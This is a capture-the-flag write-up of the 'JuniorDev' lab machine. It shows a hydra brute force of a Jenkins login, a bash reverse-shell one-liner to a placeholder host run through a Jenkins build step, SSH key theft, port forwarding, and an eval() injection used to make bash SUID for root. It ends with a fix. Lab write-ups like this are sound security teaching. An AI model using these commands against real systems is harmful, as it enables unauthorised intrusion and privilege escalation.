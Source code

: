 # JuniorDev!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/210865706-53f990ea-657f-4e80-a31e-3280c0d314f0.png)
**_Junior Dev_** is a medium linux machine which involves bruteforcing into Jenkins to gain access, then involves port forwarding to gain acess to a python web server being run as root and exploit it to gain root priviledges!

### Enumeration...
_**Nmap...**_
```
# Nmap 7.92 scan initiated Sat Dec 24 19:47:32 2022 as: nmap -sC -sV -A -p 22,30609 -oN nmapports.txt 10.150.150.38
Nmap scan report for 10.150.150.38
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   227.63 ms 10.66.66.1
2   227.66 ms 10.150.150.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 24 19:47:58 2022 -- 1 IP address (1 host up) scanned in 26.91 seconds
```
With only two ports open, we can go and take a look at the web server at _**port 30609**_ ...
![Screenshot from 2022-12-25 07-54-20](https://user-images.githubusercontent.com/99975622/210867918-460e5821-585f-485d-a4ce-fd9b94f36800.png)

The next thing we can do, try to brute force the login page as the box's name is junior dev, so probably there's some kind of misconfiguration.
<br> Also, jenkins doesnt have a default password but has a default username, so we are gonna brute force the login using hydra ...

![Screenshot from 2022-12-25 08-24-21](https://user-images.githubusercontent.com/99975622/210868426-7a4113b1-db9f-4299-bcb1-631608935874.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```
Now that we have the creds, let login into the site...
![Screenshot from 2022-12-25 08-25-11](https://user-images.githubusercontent.com/99975622/210868917-d86374ea-b80e-4b0f-badd-c56528718f4c.png)

Next step after login, we can try and look for a way to get a reverse shell onto the server...
You will notice that there is a section for actions and in those actions, there is a section for executing shell commands...
![Screenshot from 2022-12-25 08-25-34](https://user-images.githubusercontent.com/99975622/210869289-3269328f-1ca2-4239-90e5-26eb2034c1c6.png)

So next, change the shell code so that you can get a reverse shell on the server...
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
After saving the code, click on the build now to execute the command...
![Screenshot from 2022-12-25 08-26-55](https://user-images.githubusercontent.com/99975622/210870240-d45f0582-66ac-479f-b837-3cd998393d8a.png)

And we've gotten our reverse shell...
![Screenshot from 2022-12-25 08-27-58](https://user-images.githubusercontent.com/99975622/210870883-f68fee22-f0ac-42fe-b0a4-1843157a73d7.png)

Next, stabilize the shell, then we can try to find some of the flags...
#### FLAG70
![Screenshot from 2022-12-25 08-28-08](https://user-images.githubusercontent.com/99975622/210871326-f7c5dfdc-d04c-44e5-ba00-77e5f64a2ae7.png)
#### FLAG69
![Screenshot from 2022-12-25 08-30-30](https://user-images.githubusercontent.com/99975622/210871614-83d6c725-6f9b-43ff-a40f-25d979e9d05c.png)
### Local Escalation...
If you check the /etc/passwd file, you'll see that we've gotten a reverse shell as the jenkins web-server...
<br> We're gonna try to get access to the juniordev user...
<br> We can start by checking files in our current directory...
![Screenshot from 2022-12-25 08-30-45](https://user-images.githubusercontent.com/99975622/210872208-277c4b9d-0997-408c-82ea-7fc5ae6a2290.png)
Note that the .bash_history file is owned by jenkins, meaning we have acess...
<br> If we check out the contents of the file, we can see that jenkins can read the contents of the id_rsa file of juniordev and we get his key...
![Screenshot from 2022-12-25 08-31-15](https://user-images.githubusercontent.com/99975622/210872650-b4313c35-599b-40fe-bc80-1aafa94c63df.png)
Save the key to a file, grant the required permissions then ssh as juniordev...
![Screenshot from 2022-12-25 08-35-00](https://user-images.githubusercontent.com/99975622/210872832-c9487cf7-13cc-4843-9bf1-cd07c16ed30d.png)


### Priv Esc...
If we check out the open ports on the machine, we can find that there's an internal site running on port 8080...
![Screenshot from 2022-12-25 08-35-33](https://user-images.githubusercontent.com/99975622/210874807-8700d061-ee30-4d29-88bd-efff4e430fb0.png)
We can do a port forwarding so that we can check out the site...
<br>we can do a port forwarding use ssh or using the chisel tool...
 <br> But for this instance, im gonna use ssh coz i've been using chisel for a while, mostly in HTB boxes...
 But if you wanna check out chisel port forwarding, you can use this...
 ```
 # portforwarding using chisel...
 https://ap3x.github.io/posts/pivoting-with-chisel/
 
 # port forwarding using ssh...
 ssh -L 9090:127.0.0.1:8080 -i id_rsa juniordev@10.150.150.38 
 ```
![Screenshot from 2022-12-25 09-03-18](https://user-images.githubusercontent.com/99975622/210876254-e833e2aa-d152-4ddb-908d-b0b775e0fe84.png)

Now, we can check out thr service which seems to be an addition application running using python
![Screenshot from 2022-12-25 09-03-24](https://user-images.githubusercontent.com/99975622/210876454-5d20cae0-3f5a-4cc4-a306-da6c1777bdd1.png)

#### FLAG 71
If we look at the source code of the application, we find the other flag in an image...
![Screenshot from 2022-12-24 20-10-22](https://user-images.githubusercontent.com/99975622/210876735-e3975c69-ae02-43f0-9bd4-6e174a56a5d4.png)
Instead of typing the entire flag hash, we can use this image to text converter...
![FLAG](https://user-images.githubusercontent.com/99975622/210877530-b7e9e18d-aa4e-4c68-af92-dc2dd12a58c4.png)
```
https://www.ocr2edit.com/
```
We can intercept the response of the appication using burp and using the os python library, make the /bin/bash binary suid executable...
![Screenshot from 2022-12-24 21-37-36](https://user-images.githubusercontent.com/99975622/210877853-9cf20498-b255-441b-94ab-92eba75a65bb.png)
And we are finally root!

![Screenshot from 2022-12-24 21-38-57](https://user-images.githubusercontent.com/99975622/210877931-f4f93166-f8fe-401a-b50e-f6cc15709dbb.png)
### Proof of Concept...
We were only able to execute the os module because the parameters on the application were using _**eval()**_ ...

![Screenshot from 2022-12-24 21-40-01](https://user-images.githubusercontent.com/99975622/210878232-6f93b219-6f40-42ab-b85a-a62a2c00d1e7.png)
To fix this vulnerability, we can change the _**eval()**_ to _**int()**_ 

![Screenshot from 2022-12-24 21-39-32](https://user-images.githubusercontent.com/99975622/210879077-e07916be-ef25-4287-a0a0-ade007ba7c0a.png)

